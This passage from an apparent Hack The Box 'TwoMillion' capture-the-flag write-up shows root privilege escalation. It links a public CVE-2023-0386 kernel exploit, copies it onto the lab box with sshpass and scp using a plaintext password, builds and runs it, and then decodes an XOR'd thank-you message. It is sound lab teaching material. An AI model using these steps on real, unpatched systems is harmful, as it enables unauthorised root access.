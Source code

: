 We will try to use this [exploit](https://github.com/xkaneiki/CVE-2023-0386), by downloading it and then uploading it on the server.

```bash
$ sshpass -p SuperDuperPass123 scp CVE-2023-0386.zip admin@2million.htb:/tmp/
```

After unziping it we `cd` in the folder, run `make all` and create a second window with an ssh connection to admin.\
On the first window we run `./fuse ./ovlcap/lower ./gc`.\
On the second window we run `./exp`.

And now we have a root connection, and can get the root flag!
```bash
root@2million:~$ ls root
root.txt  snap  thank_you.json
root@2million:~$ cat root/root.txt
```

# Extra

We will try to read `/root/thank_you.json`.

```bash
root@2million:~$ cat /root/thank_you.json
{"encoding": "url", "data": "%7B%22encoding%22:%20%22hex%22,%20%22data%22:%20%22...7d%22%7D"}
root@2million:~$ 
```

We can take the data between the 2 last `%22` and convert the HEX to ASCII using [rapidtables.com](https://www.rapidtables.com/convert/number/hex-to-ascii.html):
```json
{"encryption": "xor", "encrpytion_key": "HackTheBox", "encoding": "base64", "data": "DAQCG...wgT0M/Ow8AN...0pDA=="}
```

Finaly. we can read our message using [gchq.github.io](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)XOR(%7B'option':'Latin1','string':'HackTheBox'%7D,'Standard',false)).
